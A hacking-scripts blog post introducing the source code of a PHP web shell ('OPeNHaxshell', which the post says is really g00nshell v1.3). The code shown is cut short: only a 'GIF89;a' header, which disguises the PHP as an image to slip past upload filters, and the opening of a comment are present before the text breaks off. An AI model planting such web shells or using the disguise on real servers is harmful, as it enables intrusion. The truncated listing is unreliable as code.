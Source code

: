 ```yaml
---
id: 125
title: OPeNHaxshell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=125
permalink: /openhaxshell/
categories:
  - OPeNHaxshell
  - PHP
tags:
  - OPeNHaxshell
  - PHP
---
```

This OPeNHaxshell v1.3 script looks similar to the [c99 shell][1], and has been nicely commented (though not in detail in the body of the script).

UPDATE: This is actually just a g00nshell v1.3. How disappointing.


### OPeNHaxshell v1.3 final Source Code

{% highlight php linenos %}GIF89;a
666
<?php
/*

###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"